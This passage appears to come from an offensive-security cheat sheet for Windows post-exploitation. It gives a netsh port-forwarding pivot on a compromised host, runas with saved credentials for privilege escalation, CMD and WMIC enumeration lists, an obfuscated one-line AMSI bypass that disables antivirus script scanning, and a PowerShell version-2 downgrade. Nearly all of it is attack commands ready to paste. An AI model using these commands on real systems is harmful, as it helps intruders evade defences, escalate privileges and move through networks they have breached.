 ### Netsh pivot
on the compromised host: `netsh interface portproxy add v4tov4 listenport=33389 listenaddress=0.0.0.0 connectport=3389 connectaddress=10.10.10.44`

### PLink on Windows

# Privilege escalation

## Windows
https://github.com/infosecn1nja/AD-Attack-Defense/blob/master/README.md#discovery
Runas saved credentials: `runas /savecred /user:<domain\username> cmd.exe`\


### Native CMD Host enum
```
echo %userdomain%
echo %logonserver%
echo %homepath%
echo %homedrive%
net share
net accounts
systeminfo
tasklist /svc
gpresult /z
net locakgroup administrators
netsh advfirewall show allprofiles state
$env
Tree $home
```

### WMIC Host enumeration:

```
wmic startup
wmic softwareelement
wmic process list brief
wmic group list brief
wmic computersystem list
wmic process list brief
wmic ntdomain list brief
wmic group list full /format:table
wmic user list full /format:table
wmic sysaccount list full /format:table
wmic /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get *
Get-WmiObject -Class Win32_UserAccount -Filter "LocalAccount='True'" | ft
wmic process call create "cmd.exe /c calc.exe"
```

### PowerShell
Amsi bypass:
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
Version 2: `PowerShell.exe -version 2`
$cert = Get-ChildItem -Path “Cert:\CurrentUser\My” -CodeSigningCert
Set-AuthenticodeSignature -FilePath “C:\Scripts\MyScript.ps1” -Certificate $cert
